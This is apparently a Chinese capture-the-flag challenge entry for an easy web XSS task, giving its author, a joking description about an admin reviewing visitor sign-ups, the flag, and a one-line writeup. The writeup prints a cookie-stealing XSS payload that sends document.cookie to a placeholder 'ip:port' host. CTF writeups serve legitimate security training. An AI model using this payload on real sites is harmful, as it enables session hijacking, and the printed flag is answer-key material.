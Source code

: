* **题目名称：** kk园区审核员

* **题目类型：** WEB

* **题目难度：** 容易 

* **出题人：** pANz0e

* **考点：**  

1. xss


* **描述：**  善良的出题人组织了一次kk园区的参观活动，现在收集有意向前往的人员信息，提交后工作人员会第一时间审核哦，审核通过还能得到审核的美味曲奇奖励！~

* **flag：** xsctf{Y0u_succ3s5ful1y_x55_m3}

* **Writeup：** 随便找个xss地方`<script>new Image().src="http://ip:port/"+document.cookie</script>`，点击提交即可
